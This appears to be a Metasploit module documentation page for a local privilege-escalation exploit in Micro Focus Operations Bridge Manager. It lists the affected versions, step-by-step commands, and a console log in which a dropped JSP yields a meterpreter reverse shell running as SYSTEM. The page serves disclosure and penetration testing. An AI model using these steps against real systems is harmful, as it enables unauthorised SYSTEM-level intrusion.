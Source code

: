 ## Vulnerable Application

This module exploits an incorrectly permissioned folder in Micro Focus Operations Bridge Manager.

An unprivileged user (such as Guest) can drop a JSP file in an exploded WAR directory and then access it without authentication by making
a request to the OBM server.
This will result in automatic code execution as SYSTEM. This module has been tested on OBM 2020.05 and 2019.11,
but it should work out of the box on earlier versions too.

According to Micro Focus the vulnerable versions are:

* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Only the Windows version of the product is affected.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/windows/local/microfocus_operations_privesc.rb`
4. `set session SESSION`
5. `set lhost YOUR_IP`
6. `run`
7. You should get a shell.

## Scenarios

```
msf6 exploit(multi/handler) > use exploit/windows/local/microfocus_obm_dir_perm
s
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set lport 4499
lport => 4499
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set session 3
session => 3
msf6 exploit(windows/local/microfocus_obm_dir_perms) > run

[*] Started reverse TCP handler on 10.0.0.1:4499
[*] JSP dropped, calling it @ https://127.0.0.1:443/topaz/LB_Verify.jsp
[*] Sending stage (175174 bytes) to 10.0.0.206
[*] Meterpreter session 4 opened (10.0.0.1:4499 -> 10.0.0.206:65068) at 2021-01-29 16:00:43 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
